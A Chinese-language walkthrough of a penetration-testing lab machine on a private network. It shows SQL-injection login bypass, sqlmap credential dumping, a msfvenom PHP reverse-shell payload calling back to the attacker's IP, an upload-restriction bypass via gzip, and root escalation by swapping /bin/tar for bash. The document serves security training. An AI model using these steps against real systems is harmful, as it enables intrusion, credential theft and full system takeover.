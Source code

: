 
# 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.17


# 实战
使用NMAP扫描端口，可以看到只开放了一个80端口
```
nmap -Pn -sV 192.168.1.17
```
![image.png](../../_img\06-靶场实践/1657691498343-c378d19b-7cf8-45e5-8074-47793f766110.png)

访问Web服务显示`You must login to access restricted content`
![image.png](../../_img\06-靶场实践/1657691502505-b42d1c2d-e962-4bc7-9e53-e03304171dbc.png)

尝试使用万能密码`' or 1=1 #`登录，登录成功
![image.png](../../_img\06-靶场实践/1657691507396-b9277167-679f-4415-8d59-13d788ecc827.png)

在浏览网页中发现存在文件上传，尝试上传shell.php木马文件<br />生成木马文件，将得到的木马代码复制到文本中并命名位shell.php

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -f raw
```
![image.png](../../_img\06-靶场实践/1657691513293-685edf14-f61f-4740-a26b-fcff50865996.png)

上传失败显示`已禁用用户alamo的主目录上载`
![image.png](../../_img\06-靶场实践/1657691544433-5d14c166-45ee-4de5-8744-c65189db9c9c.png)

那么我们就需要找一个拥有上传权限的用户，在前面我们知道登录页面存在SQL注入，尝试使用SQLMAP爆库，使用burp抓包，将数据保存到2.txt中
![image.png](../../_img\06-靶场实践/1657691563728-70f0745b-5824-4c17-ad91-184d2b307383.png)

```
sqlmap -r 2.txt -dbs
```
![image.png](../../_img\06-靶场实践/1657691568285-638944cd-5037-461c-84e1-4374b9f8e217.png)

经过查找在creds库中的accounts表中存在username和password字段
```
sqlmap -r 2.txt -D creds -T accounts --columns
```
![image.png](../../_img\06-靶场实践/1657691573159-b9f09c65-6d01-4c01-9cff-5ee4d4e20beb.png)

得到账号和密码
```
sqlmap -r 2.txt -D creds -T accounts -C username,password --dump
```
![image.png](../../_img\06-靶场实践/1657691578258-4bd42c05-e58b-41ad-9b7d-7b71ac36ff86.png)

尝试使用jjames账号登录上传shell.php木马文件，成功上传
![image.png](../../_img\06-靶场实践/1657691582169-f7e14df3-3141-4f24-a9dd-d6ea3f3b90b5.png)

找了很久没有找到上传文件所在的路径，尝试重新上传，这时我注意到在上传界面有`Enable the automatic extraction of gzip archives.(启用gzip存档的自动提取。)`，这次我们尝试将其勾选，上传压缩包然后自动提取文件。
```
tar -zcvf shell.tar.gz shell.php     --压缩shell.php
```
![image.png](../../_img\06-靶场实践/1657691586118-a163f069-3840-455b-a4fb-54c4383457db.png)

依然是找了很久没有找到上传文件所在的目录，然后我发现在文件上传页面的标题`Home directory uploader(主目录上载程序)`，主目录，那么可能是将文件上传到了用户的主目录，尝试浏览`http://192.168.1.17/~jjames/`，果然找到了所上传的文件。
![image.png](../../_img\06-靶场实践/1657691590046-ae5305c1-f2ca-4e36-b3ce-e147c6fd5a6f.png)

使用MSF启动监听
```
root@kali-xmtx:~/桌面#msfconsole                                           --启动MSF
msf6 > use exploit/multi/handler                                           --选择模块
exploit(multi/handler) > set payload php/meterpreter/reverse_tcp           --设置payload
msf6 exploit(multi/handler) > set lhost 192.168.1.10                       --设置IP
msf6 exploit(multi/handler) > set lport 4444                               --设置端口
msf6 exploit(multi/handler) > run                                          --运行
```
![image.png](../../_img\06-靶场实践/1657691594817-067d8eaa-6c7e-4beb-9f5f-eb7310e910cb.png)

在Web页面点击上传的木马，成功反弹shell(注意：此处的木马文件必须是打包上传的，否则无法执行)
![image.png](../../_img\06-靶场实践/1657691600314-db8b9c4b-0f86-4b3a-becf-17e376dd0d22.png)

进入shell输入`python -c 'import pty;pty.spawn("/bin/bash")'`使界面变得正常，查看权限
![image.png](../../_img\06-靶场实践/1657691604839-afab33ad-fca7-4af7-b1c9-cfee6f7fb9b4.png)

使用`sudo -l`命令，可以看到有多个命令将允许用户www-data以root身份进行sudo
![image.png](../../_img\06-靶场实践/1657691609118-1d2f3b1d-bdbc-48c7-8e61-7e3d59f7767a.png)

转到`/tmp`目录，将`/bin/bash`文件复制到`/tmp`文件夹，更改文件`/tmp/bash`的所有权，以便从此以后的根成为所有者
![image.png](../../_img\06-靶场实践/1657691612868-c504a0dd-21d0-4997-9659-a11c8d96827a.png)

将现有的`/bin/tar`文件备份到`bin/tar.bak`，然后将`/tmp/bash`文件移动到`/bin/tar`，执行命令/bin/tar
![image.png](../../_img\06-靶场实践/1657691616760-a5f1c43b-1856-4184-a94a-e0d3d796979e.png)

查看权限，成功获取到root权限
![image.png](../../_img\06-靶场实践/1657691620921-700c9c4a-86ec-4466-868a-94c4828d2cee.png)
